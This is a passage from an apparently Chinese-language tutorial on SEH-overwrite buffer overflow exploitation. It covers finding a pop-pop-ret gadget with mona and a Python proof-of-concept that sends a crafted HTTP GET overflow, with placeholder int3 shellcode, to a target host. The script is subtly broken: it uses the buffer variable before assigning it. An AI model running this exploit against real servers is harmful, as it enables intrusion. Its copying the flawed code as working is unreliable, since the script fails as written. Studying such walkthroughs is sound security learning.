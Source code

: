 ```php
!mona seh
```

它会帮我们找到那个POP POP RET代码块地址，获取的结果可以在seh.txt中查看

![Screenshot 2021-11-05 203535](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-16888adef8022c3d4a34d431e280c9050b984de4.jpg)

首先在seh.txt中查找一个未开启 **ALSR** 和 **SafeSEH**（SEH 校验机制） 的模块，这里我们就选择第一个ImageLoad.dll：

![Screenshot 2021-11-05 204406](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-37024fc63bf8ef5ad0d9c66c6bc9a2e1a38e40bb.jpg)

找一个ImageLoad.dll中 利用的寄存器一般不会影响程序运行的**pop-pop-ret**指令地址，同时略过带有“**\\x00**"的地址 (尽量避免出现0x00 防止传送过程中被截断)，

利用POC\_2.py来测试程序能到运行到我们覆盖的NEXT SEH里的**jmp + 偏移数 指令**：

POC\_2.py（在前一个POC的基础上进行修改）:

```python
import socket
import sys

host = str(sys.argv[1])  
port = int(sys.argv[2])  

a = socket.socket() 

print "Connecting to: " + host + ":" + str(port)
a.connect((host,port)) 

offset = 'a' * 4061     # 覆盖SEH结构体的第一个成员NEXT SEH的偏移
Nseh = "\xeb\x14\x90\x90"   # jmp 0x14 指令
seh = "\xa3\x02\x01\x10"    # 我们找到的 pop-pop-ret 指令的地址——例如 0x100102a3
nop = "\x90" * 20   # nop指令——防止jmp跳转过头
shellcode = "\xcc" * 32     # 这里用 int3 来模拟shellcode
exploit = offset + Nseh + seh + nop + shellcode
fill =  "b" * (5000-len(buff)) # 防止栈溢出未触发异常
buff = exploit + fill

a.send("GET " + buff + " HTTP/1.0\r\n\r\n")

a.close()

print "Done..."
```

![1111111112](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fb84bb631afdbddaae95d78f68b6676837cf1dca.jpg)

经过几次的更改对POC中seh的更改并测试，我终于找到一个合适的**pop-pop-ret**指令地址：0x100102a3

让我们看看效果：

![Screenshot 2021-11-05 221456](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0e0163da4cfbef835be4ddb4f6cea487946d67b8.jpg)
